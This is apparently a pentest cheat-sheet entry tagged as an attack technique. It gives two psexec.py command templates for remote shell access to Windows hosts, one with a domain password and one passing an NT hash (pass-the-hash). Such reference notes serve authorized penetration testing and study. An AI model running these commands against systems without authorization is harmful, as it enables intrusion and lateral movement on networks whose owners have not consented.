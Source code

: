 # psexec
#plateform/linux #target/remote #cat/ATTACK

## Psexec with password
```
rlwrap -crA psexec.py <domain>/<user>:'<passwd>'@<ip>
```

## Psexec with nthash
```
rlwrap -crA psexec.py <domain>/<user>@<ip> -hashes :<nthash>
```
